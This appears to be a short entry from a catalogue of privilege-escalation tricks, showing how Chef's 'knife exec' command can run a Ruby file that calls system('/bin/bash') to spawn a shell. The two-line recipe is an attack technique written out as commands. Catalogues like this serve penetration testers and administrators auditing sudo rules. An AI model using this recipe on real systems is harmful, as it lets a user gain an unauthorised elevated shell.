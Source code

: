 # chef knife

[https://docs.chef.io/workstation/knife_exec/](https://docs.chef.io/workstation/knife_exec/)

## Privilege Escalation

```
echo "system('/bin/bash')" > shell.rb
knife exec <shell.rb>
```
